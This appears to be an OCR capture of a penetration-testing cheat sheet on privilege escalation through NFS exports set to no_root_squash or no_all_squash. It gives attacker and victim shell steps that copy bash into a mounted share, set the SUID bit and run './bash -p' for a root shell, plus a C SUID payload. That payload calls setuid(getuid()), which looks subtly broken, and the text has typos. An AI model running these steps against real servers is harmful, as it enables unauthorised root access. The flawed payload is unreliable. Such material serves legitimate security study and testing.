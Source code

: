 Connecting the share to the local system again after setting the UID value.
1
	mount -t nfs 192.168.x.x:/export/home /home/newuser/Desktop/connect_path

NFS no_root_squash/no_all_squash misconfiguration PE
Read the /etc/exports file, if you find some directory that is configured as no_root_squash, then you can access it from as a client and write inside that directory as if you were the local root of the machine.
no_root_squash: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.
no_all_squash: This is similar to no_root_squash option but applies to non-root users. Imagine, you have a shell as nobody user; checked /etc/exports file; no_all_squash option is present; check /etc/passwd`{: .filepath} file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.
Privilege Escalation
Remote Exploit
If you have found this vulnerability, you can exploit it:
Mounting that directory in a client machine, and as root copying inside the mounted folder the /bin/bash binary and giving it SUID rights, and executing from the victim machine that bash binary.
1
2
3
4
5
6
7
8
9
10
	#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell

Mounting that directory in a client machine, and as root copying inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it SUID rights, and execute from the victim machine that binary (you can find here some C SUID payloads).
1
2
3
4
5
6
7
8
9
10
	//gcc payload.c -o payload
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main(){
    setuid(getuid());
    system("/bin/bash");
    return 0;
}
